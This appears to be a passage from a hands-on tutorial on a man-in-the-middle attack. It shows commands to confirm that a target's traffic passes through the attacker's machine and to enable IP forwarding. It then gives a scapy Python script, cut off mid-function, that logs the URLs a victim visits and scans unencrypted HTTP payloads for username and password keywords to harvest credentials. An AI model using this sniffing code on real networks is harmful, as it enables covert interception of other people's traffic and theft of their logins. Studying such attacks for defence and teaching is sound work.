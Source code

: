 Run the following command on your target to verify that the traffic is now flowing through your computer

```console
    waz@localhost:$ arp -a
```

If this operation results in your target having no internet please make sure to change your ip tables to allow packet forwarding. You can verify that it is disabled first and then run the command to temporarily allow forwarding

```console
    waz@localhost:$ cat /proc/sys/net/ipv4/ip_forward
    0
    waz@localhost:$ sudo su
    waz@localhost:$ sysctl -w net.ipv4.ip_forward=1
    waz@localhost:$ exit
    waz@localhost:$ cat /proc/sys/net/ipv4/ip_forward
    1
```

## Step 2 of 3: Sniff packets

So now what? We have done the hardest part already. Now let's watch the traffic. If the target is visiting pages with TLS enabled you won't see any credentials or anything resembling html but we can watch the URLs and monitor the traffic.

In order to do that replace the network's interface in the code below

Run the following command on linux to know your network card's name. Mine is eno1:

```console
    waz@localhost:$ ip addr
    eno1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
            inet 192.168.X.X  netmask 255.255.255.0  broadcast 192.168.X.X
            inet6 fe80::b5ef:afde:94d0:8969  prefixlen 64  scopeid 0x20<link>
            ether 50:e5:50:h5:k8:e1  txqueuelen 1000  (Ethernet)
            RX packets 94681718  bytes 86957151306 (86.9 GB)
            RX errors 0  dropped 40164  overruns 0  frame 0
            TX packets 70522216  bytes 77756706360 (77.7 GB)
            TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
            device interrupt 20  memory 0xfb600000-fb620000
```


```python
#!/usr/bin/env python

import scapy.all as scapy
import scapy_http.http as http


def get_url(packet):
    return str(packet[http.HTTPRequest].Host) + str(packet[http.HTTPRequest].Path)


def get_user_credentials(packet):
    if packet.haslayer(scapy.Raw):
        load = packet[scapy.Raw].load
        keywords = ["username", "uname", "email", "pass", "password", "pwd", "usr", "user", "login"]
        for keyword in keywords:
            if keyword in str(load):
                return load


def process_sniffed_packet(packet):
    if packet.haslayer(http.HTTPRequest):
```